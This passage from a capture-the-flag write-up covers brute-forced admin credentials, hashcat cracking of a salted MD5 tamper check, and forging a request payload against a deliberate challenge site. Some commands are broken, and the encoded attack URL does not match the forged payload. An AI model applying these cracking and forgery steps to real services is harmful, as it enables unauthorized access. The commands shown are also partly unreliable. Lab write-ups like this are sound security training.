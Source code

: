 {F1127289}

We can perform the same brute-force for the password value, since we have already identified that its one of the parameters accepted by the user API endpoint. After a while we can end up with the final set of credentials.

`grinchadmin:s4nt4sucks`

8) We can now go to https://hackyholidays.h1ctf.com/attack-box/login and login to obtain the flag
`flag11=flag{07a03135-9778-4dee-a83c-7ec330728e72}`

{F1127290}

##**Day 12**

1) New target is https://hackyholidays.h1ctf.com/attack-box

2) We can see that there are some buttons that will send a request with a base64 encoded parameter. Once decoding the value we notice the following content
```json
{"target":"203.0.113.213","hash":"5aa9b5a497e3918c0e1900b2a2228c38"}
```
So the above object sets the target, but also hash a sanity check for tampering (the hash value). If we try to edit that value, the validation will fail and the attack will not start.

3) After fuzzing and trying for hours, we decide to attempt to crack the hash. Since its not in any public database, it most likely uses a salt.
Due to the nature of the challenge, most parts of it use passwords/content related to santa, grinch etc.
We therefore decide to filter out such keyword from the rockyou.txt password list and attempt to see if we can get a valid hash.
What we did is

**Wordlist Generation based on Keywords**
```bash
cat /usr/share/wordlists.rockyou.txt | grep $keyword > keyword-salts.txt
```
**Creation of Crackable Hash**
```bash
for i in $(cat keyword-salts.txt); do echo "5aa9b5a497e3918c0e1900b2a2228c38:$i >>saltedhashes.txt
```
**Cracking with Hashcat**
```bash
hashcat -m 20 saltedhashses.txt pass
```

**Additional Information for Cracking Process**
- Content of pass is the IP from above `203.0.113.213`
- Instead of mode 20 for hashcat we tried mode 10 also, since we can not be sure about the method the salting happened.
- Method 20 in hashcat worked at the end and it is md5($salt.$pass)
- The $keyword to grab content from rockyou.txt wordlist that worked was **grinch**
- The final salt discovered was **mrgrinch463**

4) We can now attempt to forge a valid hash for a target of our choosing. 
```
Target: 127.0.0.1
Salted Hash: 3e3f8df1658372edf0214e202acb460b
New Payload: {"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}
Attack URL:
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==
```
